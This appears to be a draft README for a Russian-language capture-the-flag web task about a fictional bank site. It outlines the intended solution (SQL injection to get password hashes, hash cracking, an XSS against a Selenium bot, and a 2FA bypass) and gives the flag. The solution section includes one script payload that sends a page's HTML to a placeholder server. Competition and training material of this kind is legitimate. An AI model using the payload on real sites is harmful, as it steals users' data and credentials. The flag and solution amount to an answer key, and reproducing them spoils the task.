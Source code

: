 # web-ebanking


## Условие
Перед вами сайт ЛКЛ-Банка. Над ним работали лучшие программисты и специалисты
по безопасности, так что, вне всякого сомнения, он сделан надёжно и безопасно.

Или нет?

https://здесь.будет.сайт


## Решение
**Шаг 0. Получение исходников**. Изначально этого шага не предполагалось, но мне кажется, что без
исходников таск станет совсем невозможным. Будут легко находиться DirBuster'ом

**Шаг 1. SQL-инъекция**. В форме получения сведений о пользователе будет SQL-инъекция. Через неё
можно будет получить хэш пароля любого пользователя. У одного из юзеров этот хэш будет очень легко ломаться
(что-то из Rockyou), в итоге получаем доступ к его аккаунту

**Шаг 2. XSS**. У юзера будет возможность забить что-то в поиск. Сам поиск немного не работает, всегда
возвращая "Ничего не найдено", но будет возможность скормить каким-то образом поисковый запрос боту с
селениумом. Какой-нибудь XSS — и получаем пароль от аккаунта второго юзера. Заходим — а там светится
пароль админа

Строка для вставки в поисковый запрос (разбита на несколько строк для удобства):
```
<script>setTimeout(function(){let x=new XMLHttpRequest();x.open('GET',
`https://<some_local_http_server>/${encodeURIComponent(document.documentElement.innerHTML)}`,
true);x.send();}, 1000)</script>
```

**Шаг 3. Взлом 2FA**. У админа будет настроен 2FA, так что просто пароля не хватит. Но либо там будет светиться
QR-код с секретным ключом для генерации OTP, либо не будет защиты от брутфорса (скорее, первое, но пока не
решил). Ломаем, и видим флаг в личном кабинете админа


## Флаг
`LKLCTF{fe94a25123d42d01846185ffd189d2494c3e5d437ef751bb184c5a6ff5df5128}`


## TODO
- Написать более подробное решение
